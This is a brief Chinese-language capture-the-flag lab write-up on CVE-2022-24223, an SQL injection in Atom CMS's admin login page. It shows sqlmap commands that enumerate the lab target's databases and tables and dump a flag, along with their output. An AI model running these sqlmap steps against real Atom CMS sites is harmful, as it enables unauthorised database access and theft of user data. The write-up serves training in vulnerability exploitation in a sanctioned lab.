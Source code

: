 > https://yunjing.ichunqiu.com/cve/detail/725
> #SQL-Injection #Atom-CMS 

> AtomCMS SQL注入漏洞
> https://nvd.nist.gov/vuln/detail/CVE-2022-24223

根据CVE数据库的信息，得知注入点存在于`/admin/login.php`，直接用Sqlmap进行测试：
```shell
sqlmap -u http://eci-2zefo1ydqgpoy6ew4aws.cloudeci1.ichunqiu.com/admin/login.php --forms --dbs
available databases [5]:
[*] atomcms
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

sqlmap -u http://eci-2zefo1ydqgpoy6ew4aws.cloudeci1.ichunqiu.com/admin/login.php --forms -D atomcms --tables
Database: atomcms
[4 tables]
+----------+
| flag     |
| pages    |
| settings |
| users    |
+----------+

sqlmap -u http://eci-2zefo1ydqgpoy6ew4aws.cloudeci1.ichunqiu.com/admin/login.php --forms -D atomcms -T flag --dump
Database: atomcms
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{fb3d2a24-9492-448f-beaf-b89ef7026520} |
+--------------------------------------------+
```